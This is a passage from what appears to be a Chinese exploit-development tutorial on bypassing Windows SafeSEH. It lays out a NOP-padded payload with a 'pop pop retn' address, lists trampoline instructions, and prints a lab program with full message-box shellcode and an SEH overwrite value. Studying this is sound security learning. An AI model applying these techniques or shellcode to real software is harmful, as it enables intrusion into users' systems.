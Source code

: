 紧接着的数据本来是"\x90\x90\x90\x90"，但是可能中间的某些操作导致该数据被修改为0000，可以使用同样的办法，将其压入栈中

<b>最终的shellcode组成</b>
1. 219 * "\x90" + "\x68"
2. "pop pop retn"地址0x111221F1
3. 3 \* "\x90" + "\x68" + 12 \* "\x90"
4. 168字节的弹出对话框机器码

<br>

### 5. 利用加载模块之外的地址绕过SafeSEH

<br>
OllyDbg调试时，用"view->memory"可以查看程序的映射状态。类型为"Map"的映射文件，SafeSEH是无视的。当异常处理函数指针指向这些地址范围内时，是不对其进行有效性验证的。如果可以在这些文件中找到跳板指令，就可以绕过SafeSEH。

<pre><code>
其实除了"pop pop retn"指令序列外，一下指令也可以使用：
call/jmp dword ptr [esp+0x8]
call/jmp dword ptr [esp+0x14]
call/jmp dword ptr [esp+0x1c]
call/jmp dword ptr [esp+0x2c]
call/jmp dword ptr [esp+0x44]
call/jmp dword ptr [esp+0x50]
call/jmp dword ptr [ebp+0xc]
call/jmp dword ptr [ebp+0x24]
call/jmp dword ptr [ebp+0x30]
call/jmp dword ptr [ebp-0x4]
call/jmp dword ptr [ebp-0xc]
call/jmp dword ptr [ebp-0x18]

</code></pre>

#### 5.1 实验代码

<pre><code>
#include "stdafx.h"
#include "string.h"
#include "windows.h"

char shellcode[] = 
    "\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
    "\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
    "\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
    "\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
    "\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
    "\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
    "\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
    "\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
    "\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
    "\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
    "\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90"
	"\xE9\x2B\xFF\xFF\xFF\x90\x90\x90"
	"\xEB\xF6\x90\x90"
	"\x0B\x0B\x28\x00";
